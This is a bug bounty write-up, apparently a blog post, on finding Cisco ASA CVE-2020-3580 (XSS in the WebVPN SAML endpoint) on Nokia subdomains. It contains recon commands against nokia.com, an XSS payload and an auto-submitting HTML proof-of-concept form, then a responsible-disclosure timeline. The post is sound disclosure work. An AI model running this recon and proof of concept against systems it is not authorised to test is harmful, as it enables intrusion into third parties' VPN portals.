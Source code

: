 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h2 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h2>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Passive Reconnaissance:</h3>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>

I used tools like **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt 
amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

```
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

<h2 style="color: #2E86C1;">Testing for CVE-2020-3580:</h2>

To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is:

```
'><svg/onload=alert("xss")>'
```

## Steps to Reproduce:

```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<h2 style="color: #27AE60;">⚠️ CVE-2020-3580 on Nokia Subdomains:</h2>

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

